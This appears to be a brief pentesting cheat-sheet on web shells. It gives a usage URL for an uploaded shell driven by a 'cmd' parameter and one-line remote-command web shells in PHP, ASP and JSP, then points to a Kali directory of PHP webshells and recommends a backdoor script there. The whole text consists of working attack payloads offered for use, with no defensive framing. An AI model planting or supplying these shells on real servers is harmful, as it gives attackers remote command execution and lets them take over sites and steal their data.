Usage
	`http://website.com/uploaded/file/shell.<ext>?cmd=<command>`

```php
<?php system($_REQUEST["cmd"]); ?>
```

```asp
<% eval request("cmd") %>
```

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

php webshells
	/usr/share/webshells/php
		qsd-php-backdoor.php is CLUTCH